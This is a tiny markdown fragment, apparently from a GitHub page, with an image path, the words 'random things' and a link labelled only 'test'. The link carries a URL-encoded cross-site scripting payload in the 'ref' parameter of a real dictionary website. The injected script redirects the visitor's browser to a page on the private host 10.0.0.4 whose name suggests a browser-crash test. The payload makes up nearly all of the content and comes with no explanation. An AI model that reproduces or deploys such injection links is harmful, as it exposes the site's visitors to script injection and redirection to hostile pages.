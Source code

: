 random things
[test](https://www.wambooli.com/dic/index.php?ref=%3Cscript%3Edocument.location%20=%20%22http://10.0.0.4:8000/fontloader-on-detached-document-crash.html%22%3C/script%3E)

